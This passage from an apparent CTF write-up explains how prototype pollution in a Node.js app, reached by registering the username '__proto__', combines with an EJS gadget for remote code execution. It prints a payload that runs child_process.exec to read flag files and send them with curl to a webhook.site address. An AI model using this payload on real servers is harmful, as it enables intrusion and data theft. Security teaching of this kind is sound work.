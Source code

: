 
#### The journey of searching for a gadget :

A gadget is a piece of code that can be leveraged to perform specific actions when triggered by the vulnerability. In prototype pollution, a gadget is typically a function or code path that uses object properties in a way that can be manipulated through pollution.

In this challenge, I needed to find a gadget that would allow me to execute code by manipulating the `users` and `addresses` object's prototype. I started by looking for a gadget in the codebase that would allow me to get RCE, The reason I was looking for a gadget that would allow me to get RCE is because I wanted to be able to execute code on the server because the the flag is being created in the server using that docker line `RUN echo "$FLAG" > '/tmp/flag_'$(cat /dev/urandom | tr -cd 'a-f0-9' | head -c 32).txt` which means the flag is in the /tmp directory and starts with the flag_ and ends with a random string of 32 characters.

The app uses EJS as the view engine so it's perfect to be my gadget to achieve RCE.

This blog post is a great resource for understanding how to use EJS to achieve RCE: [https://blog.huli.tw/2023/06/22/en/ejs-render-vulnerability-ctf/](https://blog.huli.tw/2023/06/22/en/ejs-render-vulnerability-ctf/)

so first we need to pollute the prototype by modifying a property in it called `client` and give the value `1` to it.

then we need to modify the `escapeFunction` property with the value `JSON.stringify; process.mainModule.require('child_process').exec('cat /tmp/flag*.txt | curl -X POST -d @- https://webhook.site/xxxxxxxxx')` to read the flag and send it to the webhook.site.

then we need to trigger the `render` function from the `ejs` module, we can do that by visiting the `/`.

### Exploit

1 - First we need to register an account with the username `__proto__`, the reason behind that is because the way address is being saved in the `/address` endpoint, it's being saved in the `addresses` object with the username from the session as one the keys, so if we register an account with the username `__proto__` we can pollute the prototype of the `addresses` object.

![alt text](<../assets/img/blog/blackhat/fds/reg.png>)
